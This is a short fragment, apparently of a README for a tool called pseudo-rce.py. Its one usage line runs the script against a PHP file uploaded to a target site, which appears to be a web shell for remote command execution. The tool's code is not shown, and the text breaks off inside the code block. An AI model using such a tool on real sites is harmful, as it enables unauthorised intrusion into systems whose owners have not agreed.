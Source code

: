## Usage

Put the path of the php file uploaded on the site:

```bash

python3 pseudo-rce.py -p http://target.com/pwned.php 
